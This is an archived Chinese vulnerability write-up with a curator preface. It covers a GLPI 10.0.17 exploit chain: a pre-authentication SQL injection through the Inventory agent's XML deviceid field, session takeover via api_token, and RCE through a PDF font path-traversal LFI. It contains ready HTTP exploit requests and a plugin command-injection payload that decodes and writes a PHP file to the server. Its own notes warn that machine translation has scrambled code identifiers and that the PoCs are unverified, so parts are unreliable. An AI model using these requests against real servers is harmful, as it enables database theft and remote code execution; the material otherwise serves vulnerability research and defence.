



# GLPI 24799预认证SQL 注入及24801 PDF字体LFI链

## 条目说明

- 对象与具体问题：GLPI；24799预认证SQLi及24801 PDF字体LFI链
- 版本、配置及部署条件：10.0.17示例；Inventory启用；有效api/personal token条件
- 认证与权限前提：SQLi匿名，后续配置/上传需权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- printercounters插件命令注入是另一个机制不得都挂24801
- 开头通常启用与结尾默认未启用需统一默认/观察样本；personal_token>=10.0.9缓解条件必须保留
- SQLi列数版本相关已说明；修改允许PHP类型、代理设置、写文件是高副作用
- (1)–(5)引用链丢失/无原研究或固定版，HTTP头体空行丢失；机器翻译打乱代码标识

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

 TtTeam   2025-04-29 16:08  
  
预认证 SQL 注入  
  
过去曾有报告称 GLPI 存在多起 SQL 注入漏洞。大多数漏洞被认为是后认证漏洞，需要账户才能触发 (1) (3) (4)。预认证漏洞则较为罕见 (2) (5)，我们在外部侦察阶段发现的实例中已修复该漏洞。  
  
GLPI 的 Inventory 原生功能（通常启用）中发现了新的 SQL 注入。此功能无需任何身份验证机制即可访问。  
  
在撰写本文时，10.0.17这是最新稳定版本，并将以此为例，但该漏洞可能会影响以前的版本。  
  
handleAgent() - 10.0.17  
  
handleAgent中发现的功能是/src/Agent.phpGLPI 代理用于库存目的的可访问预身份验证功能。  
  
```
<?php
    public function handleAgent($metadata)
    {
        /** @var array $CFG_GLPI */
        global $CFG_GLPI;
        $deviceid = $metadata['deviceid'];
        $aid = false;
        if ($this->getFromDBByCrit(Sanitizer::dbEscapeRecursive(['deviceid' => $deviceid]))) {
            $aid = $this->fields['id'];
        }
```  
  
  
此函数接受用户输入并将其存储到变量中然后经过清理函数自10.0.7$deviceid后传递给函数。getFromDBByCritdbEscapeRecursive  
  
dbEscapeRecursive() - 10.0.17  
```
<?php
    public static function dbEscapeRecursive(array $values): array
    {
        return array_map(
            function ($value) {
                if (is_array($value)) {
                    return self::dbEscapeRecursive($value);
                }
                if (is_string($value)) {
                    return self::dbEscape($value);
                }
                return $value;
            },
            $values
        );
    }
```  
  
此函数接受一个数组作为输入，并递归调用dbEscape以转义其输入，此处漏洞很容易被捕获。如果我们可以发送一个既不是array也不是 的值呢string  
  
handleRequest() - 10.0.17  
  
在handleRequest解析代理请求的函数中，可以使用XML和JSON两种方式执行代理请求。  
```
<?php
        switch ($this->mode) {
            case self::XML_MODE:
                return $this->handleXMLRequest($data);
            case self::JSON_MODE:
                return $this->handleJSONRequest($data);
        }
```  
  
虽然JSON_MODEonly 执行快速json_decode，但它只能创建string、array、integer和stdClass对象（这本身并不具备__toString函数功能）。然而 可以根据用户输入XML_MODE创建一个对象。SimpleXMLElement  
```
<?php
    public function handleXMLRequest($data): bool
    {
        libxml_use_internal_errors(true);
        if (mb_detect_encoding($data, 'UTF-8', true) === false) {
            $data = iconv('ISO-8859-1', 'UTF-8', $data);
        }
        $xml = simplexml_load_string($data, 'SimpleXMLElement', LIBXML_NOCDATA);
```  
  
这是绕过该函数的完美候选dbEscapeRecursive，因为它是一个可以轻松转换为字符串的对象。  
```
php > $xml = simplexml_load_string('<test>a</test>');
php > var_dump($xml);
object(SimpleXMLElement)#2 (1) {
  [0]=>
  string(1) "a"
}
php > var_dump($xml."toString");
string(9) "atoString"
```  
  
最终请求  
  
为了利用此漏洞，需要精心设计一个针对代理请求端点的 XML 请求，并利用简单的基于时间的攻击来利用 SQL 注入。  
```http
POST /index.php/ajax/ HTTP/1.1
Host: glpi
User-Agent: python-requests/2.32.3
Content-Type: application/xml
Content-Length: 232
<?xml version="1.0" encoding="UTF-8"?>
    <xml>
    <QUERY>get_params</QUERY>
    <deviceid>', IF((1=1),(select sleep(5)),1), 0, 0, 0, 0, 0, 0);#</deviceid>
    <content>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</content>
</xml>
```  
  
使用这个简单的请求，由于条件为真，服务器将休眠 5 秒1=1。现在可以使用当前 GLPI 数据库用户的权限从数据库中提取任何数据。  
  
  
  
需要注意的是，数据库的结构在不同版本之间会有所不同。因此，上述查询中的列数可能会有所不同。  
  
利用数据库读取绕过身份验证  
  
read已经获取了数据库权限，那么获取有效会话的方法有很多。最明显的方法是从数据库中恢复帐户并尝试破解密码。然而，由于密码是使用 存储的bcrypt，因此恢复技术人员或超级管理员帐户的明文可能非常困难。  
  
api_token  
  
如果api_token在数据库中设置了帐户的，则可以使用它轻松获取有效会话并通过 API 身份验证方法访问 GLPI 的 GUI。  
```http
POST /glpi/front/login.php HTTP/1.1
Host: <redacted>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 212
Origin: http://<redacted>
Connection: keep-alive
Referer: http://<redacted>/glpi/index.php
redirect=&_glpi_csrf_token=<redacted>&field<redacted>=test&field<redacted>=test&auth=local&submit=&user_token=<api_token>
```  
  
然后，服务器会使用可用于访问 GUI 的有效 cookie 进行回答。  
```
Set-Cookie: glpi_<redacted>=<redacted>; path=/
```  
  
个人令牌  
  
此令牌用于日历功能，允许您使用唯一令牌共享个人日历。此令牌使用此Session::authWithToken方法验证会话，并在打印用户日历后销毁会话。  
  
可以通过personal_token在脚本结束执行之前强制触发致命错误来恢复模拟会话。自 10.0.9 版本起，通过将选项设置session.use_cookies为 ，此问题已得到缓解0。  
  
经过身份验证的远程代码执行  
  
方法 1  
  
一旦管理员帐户被入侵，获取远程代码执行的最简单方法就是进入插件市场。它甚至曾经托管过一个“Shell 命令”插件，但后来已被禁用远程安装，然而，仍然有很多易受攻击的插件。  
  
有时，GLPI 服务器无法直接访问互联网，但是可以从管理界面配置代理服务器，攻击者可以利用这一点，例如通过设置自己的代理服务器或配置内部公司代理。  
  
例如，公共插件printercounters仍然容易受到系统命令注入的攻击。  
```http
POST /glpi/marketplace/printercounters/ajax/process.php HTTP/1.1
Host: <redacted>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Glpi-Csrf-Token: <redacted>
X-Requested-With: XMLHttpRequest
Content-Length: 266
Connection: keep-alive
Referer: http://<redacted>/glpi/marketplace/printercounters/front/config.form.php
Cookie: glpi_<redacted>=<redacted>; stay_login=0
action=killProcess&items_id=1231231';echo `{echo,PD9waHAgcGhwaW5mbygpOyA/Pg%3d%3d}|{base64,-d}|{tee,rz.php}`;%23
```  
  
方法 2：本地文件包含 - 10.0.17  
  
PDF 导出功能中还发现了本地文件包含问题。此功能允许管理员使用库将各种表格导出为 PDF 格式TCPDF。可以在配置条目中设置自定义 PDF 字体（可以通过超级管理员帐户全局更改，或由任何帐户通过其用户配置文件中的个性化选项进行更改），但无论从还是端pdffont，该字体均未正确检查目录遍历。GLPITCPDF  
  
PDF 字体只是存储在 TCPDFfonts文件夹中的 php 文件，由于这个问题，如果字体名称受到控制，则可以包含来自系统的任何 PHP 文件。  
```
<?php
        if (TCPDF_STATIC::empty_string($fontfile) OR (!@TCPDF_STATIC::file_exists($fontfile))) {
            // build a standard filenames for specified font
            $tmp_fontfile = str_replace(' ', '', $family).strtolower($style).'.php';
            $fontfile = TCPDF_FONTS::getFontFullPath($tmp_fontfile, $fontdir);
            if (TCPDF_STATIC::empty_string($fontfile)) {
                $missing_style = true;
                // try to remove the style part
                $tmp_fontfile = str_replace(' ', '', $family).'.php';
                $fontfile = TCPDF_FONTS::getFontFullPath($tmp_fontfile, $fontdir);
            }
        }
        // include font file
        if (!TCPDF_STATIC::empty_string($fontfile) AND (@TCPDF_STATIC::file_exists($fontfile))) {
            $type=null;
            $name=null;
            $desc=null;
            $up=-null;
            $ut=null;
            $cw=null;
            $cbbox=null;
            $dw=null;
            $enc=null;
            $cidinfo=null;
            $file=null;
            $ctg=null;
            $diff=null;
            $originalsize=null;
            $size1=null;
            $size2=null;
            include($fontfile);
```  
  
要利用此漏洞，需要完成一些准备步骤。默认情况下，GLPI 不允许上传 PHP 文件，但可以通过访问 的下拉选项“文档类型”来更改此列表/front/documenttype.php。然后，需要获取文件夹的路径GLPI_TMP_DIR，此信息可在 中找到。获取路径后，即可通过（大多数 GLPI 版本都提供）/front/config.form.php执行简单的文件上传。/ajax/fileupload.php  
  
  
```
更新文档类型下拉列表以允许php扩展
恢复GLPI_TMP_DIR位置/front/config.form.php
使用以下方式上传 PHP 文件/ajax/fileupload.php
将pdffont配置设置为../../../../../../../../{GLPI_TMP_DIR}/uploadedfile
例如，通过将表导出为 PDF 来触发本地文件包含/front/report.dynamic.php?item_type=Computer&sort%5B0%5D=1&order%5B0%5D=ASC&start=0&criteria%5B0%5D%5Bfield%5D=view&criteria%5B0%5D%5Blink%5D=contains&criteria%5B0%5D%5Bvalue%5D=&display_type=2
```  
  
  
  
结论  
  
库存功能GLPI容易受到未经身份验证的 SQL 注入攻击。虽然此功能默认未启用，但在我们红队评估期间遇到的大多数（如果不是全部）安装中，此功能都已启用。  
  
通过利用此漏洞，可以通过数据库中的api_token或personal_token列（如果之前已设置）获取有效的 GUI 会话（以明文形式存储）。  
  
一旦通过身份验证，就可以利用 PDF 导出功能利用本地文件包含漏洞，并在易受攻击的实例上实现远程代码执行。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
